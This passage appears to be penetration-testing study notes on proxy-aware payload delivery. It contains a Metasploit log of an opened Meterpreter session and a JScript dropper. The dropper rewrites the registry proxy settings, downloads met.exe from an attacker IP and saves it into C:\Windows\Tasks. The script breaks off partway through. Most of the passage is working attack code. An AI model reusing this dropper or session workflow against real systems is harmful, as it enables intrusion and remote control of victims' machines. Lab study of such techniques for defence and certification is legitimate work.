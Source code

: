 ```shell
[!] https://192.168.1.110:443 handling request from 192.168.1.135; (UUID: pxlau20q) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (192.168.1.110:443 -> 192.168.1.135:52618) at 2024-05-11 14:15:46 -0400

meterpreter > whoami
[-] Unknown command: whoami. Run the help command for more details.
meterpreter > getuid
Server username: 
```

- If we needed to set a proxy `oSrvXMLHTTPRequest.setProxy(proxySetting, varProxyServer, varBypassList);`
- MS Doc https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ms760236(v=vs.85)?redirectedfrom=MSDN
- https://learn.microsoft.com/en-us/sql/ado/guide/data/command-streams?view=sql-server-ver16
- ADO stands for ActiveX Data Objects.  The ADO Stream Object is used to read, write, and manage a stream of binary or text data.

### JScript and Proxies

- download file
```js
var proxyServer = "http://192.168.250.12:3128"; // Your Squid proxy server
var url = "http://192.168.45.219/met.exe"; // URL to download the file from
var destination = "C:\\Windows\\Tasks\\met.exe"; // Destination path to save the file

// Set system proxy settings for the script
function setSystemProxy(proxyServer) {
    try {
        var WshShell = new ActiveXObject("WScript.Shell");
        WshShell.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet Settings\\ProxyEnable", 1, "REG_DWORD");
        WshShell.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet Settings\\ProxyServer", proxyServer, "REG_SZ");
    } catch (e) {
        WScript.Echo("Failed to set proxy settings: " + e.message);
    }
}

// Function to download a file using XMLHttpRequest
function downloadFile(url, destination) {
    try {
        var xhr = new ActiveXObject("MSXML2.XMLHTTP");
        xhr.open("GET", url, false);
        xhr.send();

        if (xhr.status === 200) {
            var stream = new ActiveXObject("ADODB.Stream");
            stream.Open();
            stream.Type = 1; // adTypeBinary
            stream.Write(xhr.responseBody);
            stream.Position = 0;

            var fso = new ActiveXObject("Scripting.FileSystemObject");
            if (fso.FileExists(destination)) {
                fso.DeleteFile(destination);
            }

            stream.SaveToFile(destination, 2); // adSaveCreateOverWrite
            stream.Close();
            WScript.Echo("File downloaded successfully to " + destination);
        } else {
            WScript.Echo("Failed to download file. HTTP status: " + xhr.status);
```